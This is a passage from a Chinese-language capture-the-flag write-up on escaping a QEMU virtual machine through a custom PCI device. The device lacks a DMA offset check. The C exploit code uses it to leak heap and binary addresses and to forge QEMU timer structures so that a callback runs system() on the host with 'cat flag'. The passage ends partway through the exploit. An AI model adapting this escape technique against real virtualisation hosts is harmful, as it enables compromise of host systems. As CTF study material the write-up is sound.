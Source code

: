 漏洞在这，没有对dma的offset进行检查，从而可以基于dma_buf进行上下越界读写，注意由于dma_buf不大，从而这个硬件的state结构体是在堆地址上的，如果是mmap的其实还有骚操作，这里就不说了

![](https://i.imgur.com/izyXlV5.png)

这里注意下，这里的as是address_space_memory，因此dma可以直接对用户态分配的内存进行，如果是pci的地址空间，则需要写内核驱动交互

![](https://i.imgur.com/cJu9I8S.png)

利用方法很简单，先泄露硬件state的地址和qemu的基地址。泄露state的方法是state结构体前内嵌的pci state结构体里有指向硬件state的指针，bingo

```c
  SetDMACMD(1);
  SetDMASRC(-0xa08);
  SetDMADST(buffer_phyaddr);
  SetDMACNT(0x1000);
  TriggerDMARead();

  size_t DMA_BUF_ADDR = buffer[0xc0 / 8] + 0xa08;
  size_t code_base = buffer[0x2c8 / 8] - 0xd6af00;
```

然后就是通过伪造main_loop_tlg内的time_list_group内的timer_list内的active_timer的方法，这个方法自多年前强网杯提出来就一直是通用方法了，具体可以看看exp怎么搞的，注意伪造的时候不能破坏qemu_clocks、lock的active等基本检查

```c
  char *payload = (char *)mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
  char cmd[] = "cat flag\x00";
  memcpy((void *)(payload + 0x8 + 0x100 + sizeof(struct QEMUTimerList ) + sizeof(struct QEMUTimer )),  \
                (void *)cmd,
                sizeof(cmd));

  size_t main_loop_tlg_addr = 0xe93e40 + code_base;
  size_t qemu_timer_notify_cb_addr = code_base + 0x540E50;

  *(size_t*)payload = main_loop_tlg_addr + 0x20 + 0x100;

  struct QEMUTimerList *tl = (struct QEMUTimerList *)(payload + 0x8 + 0x100);
  struct QEMUTimer *ts = (struct QEMUTimer *)(payload + 0x8 + 0x100 + sizeof(struct QEMUTimerList));

  void *fake_timer_list =(void *)(main_loop_tlg_addr + 0x20 + 0x100);
  void *fake_timer = (void *)((size_t)fake_timer_list + sizeof(struct QEMUTimerList));

  void *system_plt = code_base + 0x2B3D60;
  void *cmd_addr = fake_timer + sizeof(struct QEMUTimer);

  *(size_t *)(payload + 8 + 3 * 0x10 + 0) = (size_t)fake_timer_list;
  *(char *)(payload + 8 + 3 * 0x10 + 0xc) = 1;

  /* Fake Timer List */
  printf("fake timer list\n");
  tl->clock = (void *)(main_loop_tlg_addr + 0x20 + 3 * 0x10);
  *(size_t *)&tl->active_timers_lock[0x28] = 1;
  tl->active_timers = fake_timer;
  tl->le_next = 0x0;
  tl->le_prev = 0x0;
  tl->notify_cb = (void *)qemu_timer_notify_cb_addr;
  tl->notify_opaque = 0x0;
  tl->timers_done_ev = 0x0000000100000000;

  /*Fake Timer structure*/
  ts->timer_list = fake_timer_list;
  ts->cb = system_plt;
```